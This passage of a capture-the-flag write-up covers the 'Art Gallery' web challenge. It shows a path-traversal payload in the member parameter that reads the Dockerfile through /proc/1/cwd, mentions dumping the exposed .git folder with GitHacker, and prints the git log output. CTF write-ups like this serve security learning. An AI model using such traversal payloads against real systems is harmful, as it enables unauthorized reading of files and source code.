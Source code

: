 > **actf{dont_authenticate_via_ip_please}**
{: .prompt-info  }
___

## Art Gallery

LFI in `member` parameter.

> Noted that `/proc/1/cwd/` point to the current working directory in the docker container.
{: .prompt-tip  }

Send the following payload to fetch `Dockerfile`.

```
https://art-gallery.web.actf.co/gallery/?member=../../../../proc/1/cwd/Dockerfile
```

Dockerfile:
```docker
FROM node:17-bullseye-slim

WORKDIR /app
COPY . .
RUN mv git .git
RUN npm ci

ENV PORT=8080

EXPOSE 8080

CMD ["node", "index.js"]
```

The next step is to exploit the `.git` folder using [GitHacker](https://github.com/WangYihang/GitHacker).

After fetching all sources, use `git log` to check log commit.

```
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git log
commit 1c584170fb33ae17a63e22456f19601efb1f23db (HEAD, origin/master, origin/HEAD, master)
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:47:45 2022 -0400

    bury secrets

commit 713a4aba8af38c9507ced6ea41f602b105ca4101
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:48 2022 -0400

    remove vital secrets

commit 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:01 2022 -0400

    add program
```
